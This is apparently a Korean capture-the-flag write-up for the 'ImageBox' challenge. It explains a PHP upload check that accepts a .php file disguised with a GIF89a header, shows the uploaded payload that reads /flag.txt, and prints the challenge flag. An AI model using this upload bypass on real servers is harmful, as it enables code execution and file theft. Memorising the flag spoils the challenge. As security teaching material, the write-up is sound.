



# B2 · ImageBox

### 1. VM에 접속한다

ImageBox의 **Upload** 페이지에서 파일을 선택하고 업로드할 수 있다.



### 2. 코드 분석

**① `upload.php` — 이미지 검사 조건**

```php
$allowed_extensions = ['jpg', 'jpeg', 'png', 'gif'];
// (생략)
$mime_type = finfo_file($finfo, $file['tmp_name']);
$allowed_mimes = ['image/jpeg', 'image/png', 'image/gif', 'image/jpg'];

// (생략)
if (!in_array($mime_type, $allowed_mimes) && !in_array($check_extension, $allowed_extensions)) {
    die("<script>alert('Only images allowed.'); history.back();</script>");
}
```

`finfo_file()`은 파일 **내용을 기준으로 MIME 타입을 판별**한다. 그런데 조건이 `&&`이므로 **MIME 타입과 확장자 모두 허용되지 않을 때에만** 업로드를 거부한다.

`.php` 파일이라도 내용이 `image/gif`로 판별되면 MIME 검사를 통과해 차단 조건이 거짓이 된다.

**② `uploads/.htaccess` — 업로드된 PHP 실행**

```apache
AddType application/x-httpd-php .php .phtml .php3 .php4 .php5 .inc

<FilesMatch "\\.php">
    SetHandler application/x-httpd-php
</FilesMatch>
```

`AddType`은 확장자를 PHP 타입에 연결하고, `FilesMatch`와 `SetHandler`는 `.php`가 포함된 파일을 PHP 처리기로 보내도록 설정한다. 따라서 **업로드된 PHP 파일에 접속하면 서버에서 PHP 코드가 실행**된다.

**③ `Dockerfile` — FLAG 파일 위치**

```dockerfile
RUN mv /var/www/html/flag.txt /flag.txt && chmod 644 /flag.txt
```

FLAG 파일은 `/flag.txt`로 이동되고 읽기 권한이 부여되어 있다.

### 3. PHP 파일을 업로드한다

다음 내용을 `imagebox_test.php`로 저장한 뒤 업로드한다.

```php
GIF89a
<?php echo file_get_contents("/flag.txt"); ?>
```

`GIF89a`를 파일 앞에 넣어 GIF로 인식되게 한다. 확장자는 `.php`지만 MIME 검사가 통과하므로 업로드가 가능하다. PHP 코드는 서버의 `/flag.txt`를 읽어 출력한다.

### 4. Gallery에서 실행하여 FLAG 확인

업로드 후 **Gallery**에 표시된 파일의 **Open file**을 클릭한다. 저장 파일명은 날짜와 난수가 앞에 붙은 `..._imagebox_test.php` 형태다.



`Open file`을 누르면 `/uploads/...php`에 요청이 전달되고, 앞서 확인한 `.htaccess` 설정에 따라 PHP가 실행된다.



출력 앞의 `GIF89a`는 PHP 태그 밖에 있는 일반 텍스트이고, 뒤의 FLAG는 `file_get_contents("/flag.txt")`의 실행 결과다.

**FLAG:** `DH{6cb5076e71927728a48baa3ed77dbc9d}`

---

**취약점 원인:** 이미지 판별에 `&&`를 잘못 사용하여 PHP 업로드가 허용되고, 업로드 폴더에서 PHP 실행까지 허용되어 서버 파일을 읽을 수 있다.
